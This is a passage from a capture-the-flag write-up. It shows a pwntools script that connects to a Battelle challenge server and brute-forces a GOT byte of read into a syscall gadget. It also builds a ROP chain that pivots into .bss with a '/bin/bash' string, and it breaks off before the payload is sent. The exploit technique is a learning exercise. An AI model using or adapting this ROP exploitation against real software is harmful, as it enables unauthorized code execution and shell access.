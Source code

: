 I wrote up a quick script to brute force overwrite the last byte and apply this ROP chain. The theory was that if the overwrite was correct, read would become a syscall gadget and I would see an extra byte in the response. 

(this was pretty much my earliest functional script; see later ones if you want comments :) )
```python
from pwn import *
import time

bss = 0x0804b068
import multiprocessing
semaphore = multiprocessing.Semaphore(1)
file_semaphore = multiprocessing.Semaphore(1)

def try_byte(syscall_gadget_no):
    try:
        syscall_gadget = p8(syscall_gadget_no)
        with semaphore:
            print(f"trying {syscall_gadget_no} - {syscall_gadget}")

        r = remote("ctf.battelle.org", 30042)

        r.recvuntil(b"********************************")
        r.recvline()
        with open("binary1", "wb") as f:
            f.write(r.recvuntil(b"********************************"))

        process(["python", "detect_vuln2.py", "binary1"]).recvall()

        exe = ELF("./binary1")
        POP_EBX_RET = 0x08048371
        INC_ECX_RET = next(exe.search(b"\x41\xc3"))

        pivot_payload = b""

        pivot_payload += p32(bss + len(pivot_payload) + 4) + b"/bin/bash".ljust(16,b"\x00")
        as_for_strlen_start = bss + len(pivot_payload)
        pivot_payload += p32(bss + len(pivot_payload) + 4) + b"A"*(150)

        pivot_payload += p32(0x0804b14a-4)

        chain_start = bss + len(pivot_payload)

        pivot_chain = ROP(exe)

        pivot_chain.read(0, exe.got['read'], 1)
        pivot_chain.raw(pivot_chain.ebx[0])
        pivot_chain.raw(1)
        for i in range(4):
            pivot_chain.raw(INC_ECX_RET)
        pivot_chain.raw(0x080484f7) # mov ax, 4 gadget
        for i in range(4):
            pivot_chain.raw(INC_ECX_RET)
        pivot_chain.raw(exe.symbols['read'])

        log.info("pivot chain created")

        pivot_payload += pivot_chain.chain()

        rop = ROP(exe)
        rop.read(0, bss, len(pivot_payload))
        rop.raw(0x08048485)

        raw_rop = rop.chain()
```